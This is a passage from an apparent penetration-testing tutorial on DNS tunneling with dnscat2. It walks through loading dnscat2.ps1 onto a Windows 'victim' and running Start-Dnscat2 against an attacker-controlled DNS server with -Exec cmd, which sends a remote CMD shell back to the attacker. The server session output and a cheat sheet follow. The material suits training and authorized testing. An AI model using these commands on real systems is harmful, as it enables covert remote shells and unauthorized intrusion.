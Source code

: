 
**3.** Depending on if we are attacking a windows or a linux machine, we need to use a dnscat2 version for linux or for windows.

- Linux: the original dnscat2 
- Windows: [https://github.com/lukebaggett/dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell)

In this case our attacked machine 1 is a windows machine so we will install dnscat 2 powershell version for clients.

Installation:

```
# In the attacker machine, download the repo:
git clone https://github.com/lukebaggett/dnscat2-powershell.git

# Then, copy the dnscat2.ps1 file to the windows victim machine. For that use any of the file transfer techniques.

# Once copied, install it in the windows machine
Import-Module .\dnscat2.ps1
```


**4.** After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

```powershell-session
Start-Dnscat2 -DNSserver $ipAttackerMachine -Domain domain.local -PreSharedSecret $secret -Exec cmd 

# $secret is obtained from the server launched in the kali machne.
```

**5.** In the server launched from the kali machine you will see:

```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```


**6.** Dnscat2 cheat sheet commands:

```
# Listing dnscat2 Options
?

# Interact with sessions and move further in a target environment on engagements
window -i 1

# And you will obtain the shell. But careful, it goes very slow as it is dns 
```

